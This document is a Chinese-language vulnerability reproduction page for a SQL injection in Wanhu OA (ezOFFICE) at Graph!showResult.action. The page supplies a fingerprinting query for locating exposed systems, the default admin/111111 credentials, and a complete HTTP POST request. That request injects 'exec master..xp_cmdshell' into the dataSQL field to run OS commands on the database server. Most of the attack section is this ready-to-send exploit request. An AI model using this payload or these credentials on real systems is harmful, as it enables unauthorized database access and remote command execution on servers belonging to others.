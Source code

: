 # 

# 万户OA showResult.action 后台SQL注入漏洞

## 漏洞描述

万户OA showResult.action 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132902980](./images/202205201329080.png)

默认账号密码：admin/111111

发送请求包：

```
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

![image-20220520132915993](./images/202205201329050.png)
